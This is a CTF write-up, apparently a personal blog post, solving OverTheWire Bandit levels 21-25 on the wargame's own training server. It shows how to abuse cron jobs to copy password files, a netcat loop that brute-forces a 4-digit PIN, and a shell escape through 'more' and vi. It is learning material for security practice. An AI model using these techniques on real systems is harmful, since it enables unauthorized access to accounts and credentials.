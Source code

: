 ```yaml
---
layout: post
title:  "OverTheWire Bandit Levels 21-25"
tags: overthewire-bandit
---
```


## Level 21
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
```
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:~$ ssh bandit22@localhost
bandit22@localhost's password:
```

## Level 22
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.**
```
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
<PASSWORD>
bandit22@bandit:~$ ssh bandit23@localhost
bandit23@localhost's password:
```

## Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

**NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!**

**NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…**
```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
bandit23@bandit:~$ cd /tmp/scottctaylor12
bandit23@bandit:/tmp/scottctaylor12$ touch bandit24-pass.sh
bandit23@bandit:/tmp/scottctaylor12$ chmod 777 bandit24-pass.sh
(WRITE SCRIPT)

bandit23@bandit:/tmp/scottctaylor12$ cat bandit24-pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/scottctaylor12/PASSWORD
chmod 666 /tmp/scottctaylor12/PASSWORD
bandit23@bandit:/tmp/scottctaylor12$ cp bandit24-pass.sh /var/spool/bandit24/
bandit23@bandit:/tmp/scottctaylor12$ cat PASSWORD
<PASSWORD>
bandit23@bandit:/tmp/scottctaylor12$ ssh bandit24@localhost
bandit24@localhost's password:
```
## Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```
bandit24@bandit:~$ cd /tmp/scottctaylor12
bandit24@bandit:/tmp/scottctaylor12$ touch brute-force-25.sh
bandit24@bandit:/tmp/scottctaylor12$ chmod 777 brute-force-25.sh
(EDIT brute-force-25.sh)
bandit24@bandit:/tmp/scottctaylor12$ cat brute-force-25.sh
#!/bin/bash
PASS=$(cat /etc/bandit_pass/bandit24)

for i in {0000..9999}
do
    echo $i
    echo $PASS $i | nc localhost 30002
done

bandit24@bandit:/tmp/scottctaylor12$ ./brute-force-25.sh >> output
(AN HOUR LATER.....)
bandit24@bandit:/tmp/scottctaylor12$ cat output | grep -i -A2 -B2 ^correct
5440
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is <PASSWORD>
bandit24@bandit:/tmp/scottctaylor12$ ssh bandit25@localhost
bandit24@localhost's password:
```

## Level 25
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
```
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
..
Connection to localhost closed
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
(SHRINK WINDOW TO SHOW 3 LINES)
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:set shell=/bin/bash
:shell
bandit26@bandit:~$
```

Continue to OverTheWire Bandit [Levels 26-30](https://scottctaylor12.github.io/2018/09/15/otw-bandit26-30.html)
